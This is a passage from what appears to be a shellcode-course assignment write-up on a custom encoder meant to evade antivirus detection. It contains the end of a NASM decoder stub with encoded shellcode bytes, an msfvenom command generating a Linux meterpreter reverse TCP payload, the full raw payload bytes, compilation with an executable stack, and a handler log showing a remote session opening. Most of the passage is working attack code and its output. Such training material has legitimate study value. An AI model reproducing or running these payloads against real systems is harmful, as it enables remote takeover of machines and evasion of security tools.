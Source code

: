```nasm
        jnz decode

execute_shellcode:
        jmp short esp

call_shellcode:
        call decoder
        encoder_shellcode: db 0x08,0x60,0x58,0xc8,0x39,0xb0,0xd8,0xc3,0x9f,0x9f,0xd1,0xb8,0xb3,0xfe,0xb9,0x1e,0x4e,0xfd,0x97,0x70,0x39,0xb0,0x6a,0xdb,0xb0,0xc4,0x09,0xcf,0x74,0x25,0x76,0xe6,0xe6,0xe6,0xf6,0x90,0x90,0xaa,0xaa
```

Testing non-encoded shellcode against Virus Total
-------------------------------------------------

To test the encoder and see what effects it has on AV engine detection, I used a meterpreter reverse TCP payload and compiled it using the test C program without any encoding first. 

```
root@ragingbeaver:~# msfvenom -p linux/x86/meterpreter/reverse_tcp -f c LHOST=172.23.10.40 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of c file: 543 bytes
unsigned char buf[] = 
"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89"
"\xe1\xcd\x80\x97\x5b\x68\xac\x17\x0a\x28\x68\x02\x00\x11\x5c"
"\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0"
"\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05"
"\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9"
"\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd"
"\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80"
"\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00"
"\x00\xcd\x80";
```

Testing the shellcode with the test program:

```
slemire@slae:~/slae32/assignment4$ gcc -z execstack -o msf msf.c
slemire@slae:~/slae32/assignment4$ file msf
msf: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b36888fc1e3651d37ea86204f44e8d4078f99bd7, not stripped
```

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.23.10.40:4444 
[*] Sending stage (861480 bytes) to 172.23.10.37
[*] Meterpreter session 1 opened (172.23.10.40:4444 -> 127.0.0.1) at 2018-11-22 08:08:36 -0500
```
